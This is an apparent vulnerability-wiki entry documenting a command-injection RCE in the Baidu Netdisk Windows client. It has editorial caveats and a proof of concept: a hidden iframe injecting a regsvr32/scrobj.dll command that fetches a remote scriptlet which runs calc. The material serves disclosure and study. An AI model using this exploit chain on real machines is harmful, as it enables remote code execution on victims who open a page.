

# poc

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：百度网盘Windows客户端
- 文献类型：无上下文PoC附链接
- 版本、权限及部署边界：链接指7.59.5.104；受害者打开恶意网页触发本地HTTPS10000OpenSafeBox服务，用户名/路径需匹配
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 文件名poc无产品版本，应从已给分析链接补规范标题；版本只在链接标题不能当完整影响范围
2. 本地iframe触发并非直接公网打本地服务；需要客户端运行、TLS/浏览器策略及交互条件
3. HTML编码/转义混杂、中文占位明确，需回原报告检视而不当通用可运行PoC；相对图存在未视检
4. regdll/scriptlet调用是代码执行链，缺实际返回/进程证据和厂商修复范围，勿当全部百度网盘服务漏洞

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<https://localhost.pan.baidu.com:10000/?method=OpenSafeBox&uk=a%20-install%20regdll%20%22C:\\windows\\system32\\scrobj.dll\%22%20/u%20/i:http://【你的IP/端口】/poc.xml%20..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\Users\\【你的用户名】\\AppData\\Roaming\\baidu\\BaiduNetdisk%22'>
- 原文参考链接（未重新核验）：<https://mrxn.net/news/baidupan-windows-client-rce.html>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

> 需要替换

```html
<html> <iframe width="1px" height="1px" referrerpolicy="no-referrer" src='https://localhost.pan.baidu.com:10000/?method=OpenSafeBox&uk=a%20-install%20regdll%20%22C:\\windows\\system32\\scrobj.dll\%22%20/u%20/i:http://【你的IP/端口】/poc.xml%20..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\Users\\【你的用户名】\\AppData\\Roaming\\baidu\\BaiduNetdisk%22'></iframe></html>
```

# poc.xml

```xml
<?xml version="1.0"?><scriptlet><registration progid="poc" classid="{10001111-0000-0000-0000-0000FEEDACDC}"> <script language="JScript">   <![CDATA[    var r = new ActiveXObject("WScript.Shell").Run("cmd.exe /c calc.exe");   ]]> </script></registration></scriptlet>
```



分析+复现 备份地址： [百度网盘（7.59.5.104） Windows客户端存在命令注入漏洞](https://mrxn.net/news/baidupan-windows-client-rce.html)


---

> 来源：Mr-xn/Penetration_Testing_POC
